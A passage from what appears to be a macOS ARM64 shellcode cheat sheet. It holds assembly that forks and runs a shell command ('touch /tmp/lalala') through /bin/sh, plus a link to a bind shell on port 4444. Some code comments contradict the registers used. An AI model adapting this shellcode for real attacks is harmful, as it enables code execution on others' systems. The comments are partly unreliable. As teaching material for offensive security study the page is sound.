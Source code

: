 #### Invoke command with sh from a fork so the main process is not killed

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the fork syscall
    mov x16, #2            ; Load the syscall number for fork (2) into x8
    svc 0                  ; Make the syscall
    cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
    beq _loop              ; If not child process, loop

    ; Prepare the arguments for the execve syscall

    sub sp, sp, #64        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, sh_path
    str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
    adr x0, sh_c_option    ; Get the address of "-c"
    str x0, [x1, #8]       ; Store the address of "-c" as the second argument
    adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
    str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
    str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

    adr x0, sh_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall

_exit:
    mov x16, #1            ; Load the syscall number for exit (1) into x8
    mov x0, #0             ; Set exit status code to 0
    svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```

#### Bind shell

Bind shell from [https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s) in **port 4444**
